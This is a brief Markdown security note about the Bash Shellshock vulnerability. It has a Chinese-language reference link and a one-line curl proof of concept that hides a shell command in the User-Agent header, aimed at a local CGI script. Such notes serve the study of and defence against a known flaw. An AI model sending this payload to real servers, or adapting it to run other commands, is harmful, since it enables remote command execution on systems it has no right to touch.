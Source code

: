 ## bash 4.0

### shellshock

参考链接

* [shellshock原理介绍](https://introspelliam.github.io/2017/09/09/shellshock%E5%8E%9F%E7%90%86%E4%BB%8B%E7%BB%8D/)

Poc

```
curl -k -A "() { :; }; echo; /bin/ls -lh; " 127.0.0.1/cgi-bin/test.sh
```

